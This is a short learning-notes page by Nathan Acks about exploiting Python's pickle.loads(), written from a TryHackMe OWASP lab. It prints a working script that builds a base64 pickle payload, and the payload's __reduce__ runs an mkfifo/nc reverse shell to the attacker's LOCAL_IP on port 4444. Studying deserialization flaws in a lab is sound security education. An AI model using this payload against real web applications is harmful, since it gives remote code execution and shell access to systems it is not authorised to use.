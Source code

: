 # Exploiting Python

## Python Pickles

One way to attack Python webapps is to exploit the pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like [`object.__reduce__()`](https://docs.python.org/3/library/pickle.html#object.__reduce__) are run.

For example, the [TryHackMe: OWASP Top 10 room](../log/2021-10-06-tryhackme-complete-beginner.md) has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (LOCAL_IP gets replaced by your machine’s IP):

```python
import pickle		
import sys		
import base64		

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc LOCAL_IP 4444 > /tmp/f'		

class rce(object):		
    def __reduce__(self):		
        import os		
        return (os.system,(command,))		

print(base64.b64encode(pickle.dumps(rce())))
```

What’s getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there’s our reverse shell!

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

- - - -

👤 Nathan Acks
📅 October 8, 2021

